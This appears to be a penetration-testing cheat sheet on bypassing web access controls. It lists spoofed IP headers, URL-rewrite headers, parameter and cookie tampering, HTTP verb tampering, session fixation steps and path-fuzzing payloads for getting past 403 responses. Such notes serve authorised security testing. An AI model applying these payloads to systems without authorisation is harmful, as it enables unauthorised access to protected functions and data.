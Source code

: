 # Content 
- [Mass Assignment / Parameter Based Access Control](#mass-assignment--parameter-based-access-control)
- [Referer Based Access Control](#referer-based-access-control)
- [IP Based Access Control](#ip-based-access-control)
- [Cookie Based Access Control](#cookie-based-access-control)
- [Method Based Access Control / HTTP Verb Tampering](#method-based-access-control--http-verb-tampering)
- [Insecure Calling Functions](#insecure-calling-functions)
- [IDOR](#idor)
- [Session Attacks](#session-attacks)
- [Path fuzzing](#path-fuzzing)



## Mass Assignment / Parameter-based access control
- ex : inject paramter isAdmin=true
- ex : inject paramter role=admin


## Referer-based access control
- ex : if you want to access /admin/deleteusers but it is forbbiden , try put `Referer: /admin/`

## IP-based access control
##### Rewrite IP source:
- X-Originating-IP: 127.0.0.1
- X-Forwarded-For: 127.0.0.1
- X-Forwarded: 127.0.0.1
- Forwarded-For: 127.0.0.1
- X-Forwarded-Host: 127.0.0.1
- X-Remote-IP: 127.0.0.1
- X-Remote-Addr: 127.0.0.1
- X-ProxyUser-Ip: 127.0.0.1
- X-Original-URL: 127.0.0.1
- Client-IP: 127.0.0.1
- X-Client-IP: 127.0.0.1
- X-Host: 127.0.0.1
- True-Client-IP: 127.0.0.1
- Cluster-Client-IP: 127.0.0.1
- X-ProxyUser-Ip: 127.0.0.1
- Via: 1.0 fred, 1.1 127.0.0.1
- Connection: close, X-Forwarded-For (Check [hop-by-hop headers](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/abusing-hop-by-hop-headers.md))

## URL-based access control
##### Rewrite location:
- X-Original-URL: /admin/console
- X-Rewrite-URL: /admin/console

## Cookie Based Access Control
ex : change cookie Admin=true

## Method Based Access Control / HTTP Verb Tampering
- try different verbs on every function to execute forbidden functions or bypass protection filters

| HTTP Method | Description                                                                                               |
|-------------|-----------------------------------------------------------------------------------------------------------|
| GET         | The GET method requests a representation of the specified resource. Requests using GET should only retrieve data. |
| HEAD        | The HEAD method asks for a response identical to a GET request, but without the response body.         |
| POST        | The POST method submits an entity to the specified resource, often causing a change in state or side effects on the server. |
| PUT         | The PUT method replaces all current representations of the target resource with the request payload.   |
| DELETE      | The DELETE method deletes the specified resource.                                                       |
| CONNECT     | The CONNECT method establishes a tunnel to the server identified by the target resource.                |
| OPTIONS     | The OPTIONS method describes the communication options for the target resource.                         |
| TRACE       | The TRACE method performs a message loop-back test along the path to the target resource.               |
| PATCH       | The PATCH method applies partial modifications to a resource.                                           |


## Insecure Calling Functions 
- check if you can call controlling functions `like in admin panel` without accessing the page itself

## IDOR
- check [IDOR](https://github.com/kiro6/penetration-testing-notes/tree/main/web%20pentest/Idor)



## Session Attacks 
### Session Fixation 
##### 1. obtain a valid session identifier
##### 2. fixate a valid session identifier, this can happen if : 
- The assigned session identifier pre-login remains the same post-login
- Session identifiers (such as cookies) are being accepted from URL Query Strings or Post Data and propagated to the application

## Path fuzzing
**If /path is blocked:**

- Try using `.` or` %2e`: /%2e/path


(if the access is blocked by a proxy, this could bypass the protection). Try also /%252e/path (double URL encode)

- Try Unicode bypass: `/%ef%bc%8fpath`


(The URL encoded chars are like “/”) so when encoded back it will be //path and maybe you will have already bypassed the /path name check


**Other path bypasses:**

- site.com/secret –> HTTP 403 Forbidden
- site.com/SECRET –> HTTP 200 OK
- site.com/secret/ –> HTTP 200 OK
- site.com/secret/. –> HTTP 200 OK
- site.com//secret// –> HTTP 200 OK
- site.com/./secret/.. –> HTTP 200 OK
- site.com/;/secret –> HTTP 200 OK
- site.com/.;/secret –> HTTP 200 OK
- site.com//;//secret –> HTTP 200 OK
- site.com/secret.json –> HTTP 200 OK (ruby)

I prefer using the 403 Bypasser Burp extension by Gil Nothmann to automate the bypass techniques.

